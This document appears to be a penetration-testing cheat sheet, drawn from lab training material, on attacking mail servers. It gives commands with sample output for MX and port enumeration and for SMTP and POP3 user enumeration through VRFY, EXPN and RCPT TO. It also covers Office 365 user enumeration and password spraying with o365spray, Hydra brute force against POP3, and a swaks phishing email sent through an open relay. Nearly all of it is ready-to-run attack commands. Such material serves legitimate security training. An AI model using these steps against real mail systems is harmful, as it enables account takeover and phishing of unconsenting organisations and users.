

A `mail server` (sometimes also referred to as an email server) is a server that handles and delivers email over a network, usually over the Internet. 



### Enumeration

#### Host - MX Records

```bash
host -t MX hackthebox.eu
```

```bash
host -t MX microsoft.com
```

#### DIG - MX Records

```bash
dig mx plaintext.do | grep "MX" | grep -v ";"
```

```bash
dig mx inlanefreight.com | grep "MX" | grep -v ";"
```

#### Host - A Records

```bash
host -t A mail1.inlanefreight.htb.
```

| Port      | Service                        |
|-----------|--------------------------------|
| TCP/25    | SMTP Unencrypted               |
| TCP/143   | IMAP4 Unencrypted              |
| TCP/110   | POP3 Unencrypted               |
| TCP/465   | SMTP Encrypted                 |
| TCP/587   | SMTP Encrypted / STARTTLS      |
| TCP/993   | IMAP4 Encrypted                |
| TCP/995   | POP3 Encrypted                 |

```bash
sudo nmap -Pn -sV -sC -p25,143,110,465,587,993,995 10.129.14.128
```

### Misconfigurations

#### VRFY Command

```bash
telnet 10.10.110.20 25

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
220 parrot ESMTP Postfix (Debian/GNU)


VRFY root

252 2.0.0 root


VRFY www-data

252 2.0.0 www-data


VRFY new-user

550 5.1.1 <new-user>: Recipient address rejected: User unknown in local recipient table
```

#### EXPN Command

```bash
telnet 10.10.110.20 25

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
220 parrot ESMTP Postfix (Debian/GNU)


EXPN john

250 2.1.0 john@inlanefreight.htb


EXPN support-team

250 2.0.0 carol@inlanefreight.htb
250 2.1.5 elisa@inlanefreight.htb
```

#### RCPT TO Command

```bash
telnet 10.10.110.20 25

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
220 parrot ESMTP Postfix (Debian/GNU)


MAIL FROM:test@htb.com
it is
250 2.1.0 test@htb.com... Sender ok


RCPT TO:julio

550 5.1.1 julio... User unknown


RCPT TO:kate

550 5.1.1 kate... User unknown


RCPT TO:john

250 2.1.5 john... Recipient ok
```

#### USER Command

```bash
telnet 10.10.110.20 110

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
+OK POP3 Server ready

USER julio

-ERR


USER john

+OK
```

To automate our enumeration process, we can use a tool named [smtp-user-enum](https://github.com/pentestmonkey/smtp-user-enum). We can specify the enumeration mode with the argument `-M` followed by `VRFY`, `EXPN`, or `RCPT`, and the argument `-U` with a file containing the list of users we want to enumerate. Depending on the server implementation and enumeration mode, we need to add the domain for the email address with the argument `-D`. Finally, we specify the target with the argument `-t`.

```bash
smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7

Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... RCPT
Worker Processes ......... 5
Usernames file ........... userlist.txt
Target count ............. 1
Username count ........... 78
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ inlanefreight.htb

######## Scan started at Thu Apr 21 06:53:07 2022 #########
10.129.203.7: jose@inlanefreight.htb exists
10.129.203.7: pedro@inlanefreight.htb exists
10.129.203.7: kate@inlanefreight.htb exists
######## Scan completed at Thu Apr 21 06:53:18 2022 #########
3 results.

78 queries in 11 seconds (7.1 queries / sec)
```

### Cloud Enumeration

[O365spray](https://github.com/0xZDH/o365spray) is a username enumeration and password spraying tool aimed at Microsoft Office 365 (O365) developed by [ZDH](https://twitter.com/0xzdh). This tool reimplements a collection of enumeration and spray techniques researched and identified by those mentioned in [Acknowledgments](https://github.com/0xZDH/o365spray#Acknowledgments). Let's first validate if our target domain is using Office 365.

#### O365 Spray

```bash
python3 o365spray.py --validate --domain msplaintext.xyz

            *** O365 Spray ***            

>----------------------------------------<

   > version        :  2.0.4
   > domain         :  msplaintext.xyz
   > validate       :  True
   > timeout        :  25 seconds
   > start          :  2022-04-13 09:46:40

>----------------------------------------<

[2022-04-13 09:46:40,344] INFO : Running O365 validation for: msplaintext.xyz
[2022-04-13 09:46:40,743] INFO : [VALID] The following domain is using O365: msplaintext.xyz
```

```bash
python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz        
                                       
            *** O365 Spray ***             

>----------------------------------------<

   > version        :  2.0.4
   > domain         :  msplaintext.xyz
   > enum           :  True
   > userfile       :  users.txt
   > enum_module    :  office
   > rate           :  10 threads
   > timeout        :  25 seconds
   > start          :  2022-04-13 09:48:03

>----------------------------------------<

[2022-04-13 09:48:03,621] INFO : Running O365 validation for: msplaintext.xyz
[2022-04-13 09:48:04,062] INFO : [VALID] The following domain is using O365: msplaintext.xyz
[2022-04-13 09:48:04,064] INFO : Running user enumeration against 67 potential users
[2022-04-13 09:48:08,244] INFO : [VALID] lewen@msplaintext.xyz
[2022-04-13 09:48:10,415] INFO : [VALID] juurena@msplaintext.xyz
[2022-04-13 09:48:10,415] INFO : 

[ * ] Valid accounts can be found at: '/opt/o365spray/enum/enum_valid_accounts.2204130948.txt'
[ * ] All enumerated accounts can be found at: '/opt/o365spray/enum/enum_tested_accounts.2204130948.txt'

[2022-04-13 09:48:10,416] INFO : Valid Accounts: 2
```

#### Password Attacks

##### Hydra - Password Attack

```bash
 hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-04-13 11:37:46
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 67 login tries (l:67/p:1), ~5 tries per task
[DATA] attacking pop3://10.10.110.20:110/
[110][pop3] host: 10.129.42.197   login: john   password: Company01!
1 of 1 target successfully completed, 1 valid password found
```

##### O365 Spray - Password Spraying

```bash
python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz

            *** O365 Spray ***            

>----------------------------------------<

   > version        :  2.0.4
   > domain         :  msplaintext.xyz
   > spray          :  True
   > password       :  March2022!
   > userfile       :  usersfound.txt
   > count          :  1 passwords/spray
   > lockout        :  1.0 minutes
   > spray_module   :  oauth2
   > rate           :  10 threads
   > safe           :  10 locked accounts
   > timeout        :  25 seconds
   > start          :  2022-04-14 12:26:31

>----------------------------------------<

[2022-04-14 12:26:31,757] INFO : Running O365 validation for: msplaintext.xyz
[2022-04-14 12:26:32,201] INFO : [VALID] The following domain is using O365: msplaintext.xyz
[2022-04-14 12:26:32,202] INFO : Running password spray against 2 users.
[2022-04-14 12:26:32,202] INFO : Password spraying the following passwords: ['March2022!']
[2022-04-14 12:26:33,025] INFO : [VALID] lewen@msplaintext.xyz:March2022!
[2022-04-14 12:26:33,048] INFO : 

[ * ] Writing valid credentials to: '/opt/o365spray/spray/spray_valid_credentials.2204141226.txt'
[ * ] All sprayed credentials can be found at: '/opt/o365spray/spray/spray_tested_credentials.2204141226.txt'

[2022-04-14 12:26:33,048] INFO : Valid Credentials: 1
```

### Protocol Specifics Attacks

#### Open Relay

```bash
nmap -p25 -Pn --script smtp-open-relay 10.10.11.213
```

```bash
swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213

=== Trying 10.10.11.213:25...
=== Connected to 10.10.11.213.
<-  220 mail.localdomain SMTP Mailer ready
 -> EHLO parrot
<-  250-mail.localdomain
<-  250-SIZE 33554432
<-  250-8BITMIME
<-  250-STARTTLS
<-  250-AUTH LOGIN PLAIN CRAM-MD5 CRAM-SHA1
<-  250 HELP
 -> MAIL FROM:<notifications@inlanefreight.com>
<-  250 OK
 -> RCPT TO:<employees@inlanefreight.com>
<-  250 OK
 -> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Thu, 29 Oct 2020 01:36:06 -0400
 -> To: employees@inlanefreight.com
 -> From: notifications@inlanefreight.com
 -> Subject: Company Notification
 -> Message-Id: <20201029013606.775675@parrot>
 -> X-Mailer: swaks v20190914.0 jetmore.org/john/code/swaks/
 -> 
 -> Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/
 -> 
 -> 
 -> .
<-  250 OK
 -> QUIT
<-  221 Bye
=== Connection closed with remote host.
```
